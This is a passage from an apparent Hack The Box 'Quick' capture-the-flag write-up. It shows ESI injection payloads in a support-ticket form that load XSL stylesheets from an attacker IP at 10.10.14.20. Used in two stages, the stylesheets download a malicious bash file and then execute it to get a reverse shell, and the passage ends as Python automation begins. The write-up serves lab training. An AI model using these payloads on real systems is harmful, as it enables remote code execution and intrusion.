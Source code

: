 Then I send the poc

```
title=0x4rt3mis&msg=Describe+your+query&id=TKT-1234;<esi:include src="http://localhost/" stylesheet="http://10.10.14.20/esi.xsl"> </esi:include>
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-17-HackTheBox-Quick/2021-10-17-HackTheBox-Quick%2007:57:35.png)

And we get the ping back

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-17-HackTheBox-Quick/2021-10-17-HackTheBox-Quick%2007:57:48.png)

## Reverse Shell

To get a reverse shell I needed to make it in two stages. We got so many errors and bad chars with the reverse shells one liner.

I created two xsl files, one is to download the malicious bash file, other is just to execute it on the server

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-17-HackTheBox-Quick/2021-10-17-HackTheBox-Quick%2009:58:43.png)

Great. It'll download the malicious shell file and after execute it on the server

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-17-HackTheBox-Quick/2021-10-17-HackTheBox-Quick%2010:03:40.png)

Repeater

```
title=0x4rt3mis&msg=Describe+your+query&id=TKT-1111;<esi:include src="http://localhost/" stylesheet="http://10.10.14.20/shell_download.xsl"> </esi:include>
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-17-HackTheBox-Quick/2021-10-17-HackTheBox-Quick%2010:04:11.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-17-HackTheBox-Quick/2021-10-17-HackTheBox-Quick%2010:04:22.png)

And executed

```
title=0x4rt3mis&msg=Describe+your+query&id=TKT-1112;<esi:include src="http://localhost/" stylesheet="http://10.10.14.20/shell_execute.xsl"> </esi:include>
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-17-HackTheBox-Quick/2021-10-17-HackTheBox-Quick%2010:05:01.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-17-HackTheBox-Quick/2021-10-17-HackTheBox-Quick%2010:05:14.png)

Sure! Let's automate the whole things now!

# Sam Auto Shell

We will use our python skeleton to do that
